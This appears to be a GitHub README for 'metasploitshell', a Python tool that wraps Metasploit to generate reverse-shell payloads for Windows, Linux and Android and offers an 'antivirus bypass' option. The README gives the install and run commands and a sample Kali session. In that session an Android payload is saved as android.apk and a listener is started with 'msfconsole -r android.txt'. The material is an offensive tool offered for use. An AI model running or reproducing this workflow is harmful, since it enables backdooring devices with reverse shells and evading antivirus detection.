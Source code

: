 # metasploitshell
made by khilesh
# simple reverse shell gerneter tool

# commands
        git clone https://github.com/khilesh114/metasploitshell
        cd metasploitshell
        sudo python3 msv.py

──(codex㉿kali)-[~/Desktop/projects/metasploitshell]
└─$ python3 msv.py
metasploit fremwork
enter ip addres ex 127.0.0.1
enter port ex 8080
windows [1]
linux   [2]
android [3]
antivirus bypass [4]
exit tool  [5]
enter a number :-3

 
                   
_____    ____    __| _/______  ____ |__| __| _/
\__  \  /    \  / __ |\_  __ \/  _ \|  |/ __ | 
 / __ \|   |  \/ /_/ | |  | \(  <_> )  / /_/ | 
(____  /___|  /\____ | |__|   \____/|__\____ | 
                        

Enter ip address :-127.0.0.1
Enter a port nomber  :-8080
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10231 bytes
Saved as: android.apk
Metasploit tip: Save the current environment with the save command, 
future console restarts will use this environment again
                                                  


Metasploit Documentation: https://docs.metasploit.com/

[*] Processing android.txt for ERB directives.
exit msfconsole 
# emsf6 > exit
                                                                                                                          
#┌──(codex㉿kali)-[~/Desktop/projects/metasploitshell]
any error exit msfconsole and run command
# └─$ msfconsole -r android.txt



